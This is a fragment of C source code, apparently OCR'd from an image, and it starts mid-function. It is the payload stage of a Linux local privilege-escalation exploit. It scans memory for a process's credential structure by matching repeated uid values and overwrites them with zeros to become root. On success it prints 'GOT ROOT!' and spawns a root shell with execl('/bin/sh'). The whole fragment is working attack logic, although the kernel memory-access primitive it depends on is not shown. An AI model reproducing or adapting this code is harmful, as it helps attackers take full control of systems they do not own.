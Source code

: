 ```c
    if (
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid &&
      addr[credIt++] == uid
    ) {
      credNum++;
      printf("[+] Found cred structure! ptr: %p, credNum: %d\n", addr,
      credNum);
      credIt = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      addr[credIt++] = 0;
      if (getuid() == 0) {
        puts("[+] GOT ROOT!");
        // Should be redondant - will trigger an "Operation not permitted" if the uids / gids somehow failed
        setuid(0);
        setgid(0);
        execl("/bin/sh", "sh", 0);
        break;
      }
      else
      {
        credIt = 0;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
        addr[credIt++] = uid;
      }
    }
    addr++;
  }
  puts("[+] Scanning loop END");
  fflush(stdout);
  int stop = getchar();
  return 0;
}
```
